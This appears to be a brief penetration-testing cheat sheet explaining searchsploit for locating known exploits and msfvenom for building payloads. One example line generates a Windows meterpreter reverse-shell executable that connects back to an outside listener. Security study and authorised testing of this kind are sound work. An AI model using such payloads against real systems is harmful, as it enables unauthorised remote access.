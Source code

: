
## searchsploit
**SearchSploit** is used to search and locate known exploits and vulnerabilities in a wide variety of software and systems. It utilizes the Exploit Database, which contains an extensive collection of exploits, shellcodes, and security-related references.
```bash
searchsploit <whatever>
```

Once we find the exploit that we need we can know the path where it's stored with the command:
```bash
searchsploit -p<exploit_number>
```
## msfvenom
**msfvenom** is primarily used for generating payloads, which are pieces of code that can be delivered to a target system to exploit vulnerabilities or gain unauthorized access.

```bash
#target_info = java, php, python, windows, ubuntu, etc
msfvenom -l payloads | grep <target_info>
msfvenom -p PAYLOAD [OPTIONS] -f FORMAT [OTHER_OPTIONS]
```
- Example:
```bash
#-f = file extension
#-o = file name
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o payload.exe
#if you want to know the payload options use:
msfvenom -p <payload> --list-options
```